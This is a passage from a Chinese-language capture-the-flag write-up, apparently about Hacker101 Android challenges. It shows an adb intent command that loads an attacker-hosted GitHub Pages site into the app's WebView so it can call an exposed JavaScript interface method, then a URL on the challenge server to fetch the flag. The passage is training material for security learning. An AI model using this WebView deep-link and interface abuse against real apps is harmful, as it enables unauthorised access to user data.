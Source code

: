 ******为了调用这个方法，我可以使用 **Github Pages** 创建一个简单的网页。然后，我可以将下面的 JavaScript 添加到网页中，它将使用暴露类实例的" **iface** "名称调用 **getFlagPath()** 方法。******

******![](img/e054f175cce284c5ef3ea02054c44132.png)******

******接下来，我可以重定向到我的 Github Pages 网站，如前所述，方法是在调用**浏览器活动**时，为 **uri** 参数分配站点 URL 地址作为其值。******

```
****adb shell am start -W -a "android.intent.action.VIEW" -d "oauth://final/uri=https://**github.website.url"** com.hacker101.oauth****
```

******这将产生一个 HTML 页面的路径。******

******![](img/2e8416a9715974a6aae5255eb987857c.png)******

******我可以简单地将 HTML 文件的路径添加到如下所示的地址的末尾。******

```
****http://34.94.3.143/cb1f155695/**path-to-flag.html******
```

******这给了我第二面旗帜😃。******

******![](img/eb458587762e0ee4bf67335f93502a78.png)******

# ******移动网站开发(中等，双标志)******

******再次使用 ADB 和 MobSF，我安装了应用程序并生成了一个静态分析报告。打开应用程序，我看到一个允许我刷新页面和编辑页面内容的活动。******

******![](img/b9a75520ed3a513f2b219cac682faaff.png)******
